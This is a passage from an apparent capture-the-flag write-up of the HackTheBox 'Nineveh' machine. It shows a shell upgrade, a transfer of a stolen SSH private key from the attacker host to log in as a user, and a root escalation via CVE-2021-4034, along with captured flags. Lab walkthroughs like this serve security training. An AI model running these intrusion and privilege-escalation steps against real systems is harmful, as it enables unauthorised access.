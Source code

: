 	![]({{ page.img_path }}Pasted%20image%2020220824031551.png)
7. Obtain a more stable shell
	```
	$ python3 -c 'import pty;pty.spawn("/bin/bash")'
	www-data@nineveh:/home/amrois$ 	
	```





# Privilege Escalation - 1

## Amrois - Via SSH Private Key
1. Earlier, we found SSH private key, transfer it to `http://nineveh.htb`
	```
	www-data@nineveh:/tmp$ wget 10.10.14.31/nineveh.priv
	--2022-08-23 14:34:21--  http://10.10.14.31/nineveh.priv
	Connecting to 10.10.14.31:80... connected.
	HTTP request sent, awaiting response... 200 OK
	Length: 1675 (1.6K) [application/octet-stream]
	Saving to: 'nineveh.priv'
	
	nineveh.priv                  100%[==============================================>]   1.64K  --.-KB/s    in 0s      
	
	2022-08-23 14:34:21 (262 MB/s) - 'nineveh.priv' saved [1675/1675]
	
	```
2. Change permission of `nineveh.priv` and SSH
	```
	www-data@nineveh:/tmp$ chmod 600 nineveh.priv 
	www-data@nineveh:/tmp$ ssh amrois@localhost -i nineveh.priv 
	```
3. Obtained `amrois` shell & User Flag
	```
	390ff4e95074a5a0499f8e065fcedce9
	```
	![]({{ page.img_path }}Pasted%20image%2020220824033715.png)



## Root - Via CVE-2021-4034
1. Found something interesting w/ `linpeas.sh`
	![]({{ page.img_path }}Pasted%20image%2020220824040103.png)
	- `CVE-2021-4034`
2. Try `CVE-2021-4034.py`
	1. How does the exploit work?
		- Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged processes.
		- Due to an improper implementation of the pkexec tool, an out-of-bounds memory access can be leveraged by a local attacker to escalate their privileges to system root.
	2. [Download Exploit](https://github.com/joeammond/CVE-2021-4034)
	3. Transfer to `nineveh.htb` & Exploit
3. Obtained Root Shell & Root Flag
	```
	3fa9f72b3965a409759533e147293627
	```
	![]({{ page.img_path }}Pasted%20image%2020220824040002.png)
6. Obtain a persitent/stable root access
	1. Create private key for `Amorois`
		```